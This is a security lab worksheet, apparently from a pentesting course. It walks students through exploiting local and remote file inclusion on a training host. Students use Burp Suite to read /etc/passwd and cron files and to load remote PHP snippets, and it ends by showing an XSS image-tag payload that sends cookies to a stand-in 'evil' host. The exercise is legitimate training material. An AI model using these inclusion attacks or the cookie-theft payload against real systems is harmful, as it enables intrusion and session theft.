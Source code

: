 # My First RFI

## Instructions
Use Firefox to navigate to: <http://ptl-08a17b2b-81673f5e.libcurl.so/?page=intro.php>

Enable Foxy Proxy, launch Burp Suite, and intercept a request to the vulnerable page.

Then, follow the instructions below.

---

- Send the request to Repeater. Use the LFI vulnerability to read the contents of the files below. Explain what each file does.
  - `/etc/passwd`
  - `/etc/hosts`
  - `/etc/cron.daily/dpkg`
  - `/etc/cron.weekly/`
  - **Hint**: Try using Intruder!

- Next, inspect the HTML at: <https://gist.githubusercontent.com/Peleke/c86708ff5e888a2614ba904d56ada9d5/raw/f6271aa2b605e639a89bbc48dc0ece7428e84534/Simple%2520HTML>

- Use the RFI vulnerability to load the above site. 
  - What happens? Use `view-source` to verify your answer.

- Inspect the URL at: <https://gist.githubusercontent.com/Peleke/1f02b0833eba6f40ff53aff3d6e3a794/raw/6e25acb31b9f93417a5dbbecbc7d0954c318d3fd/Simple%2520Echo>

- Use the RFI vulnerability to load the above site. Use `view-source` to inspect the result. 
  - Explain why this produces the same result as the first link, even though the snippet is different.

## Questions
- How would you modify the PHP snippet to insert the below image tag?

  ```bash
  <img src="ruhroh" onerror="exfiltrateCookies('mysite.evil')">
  ```
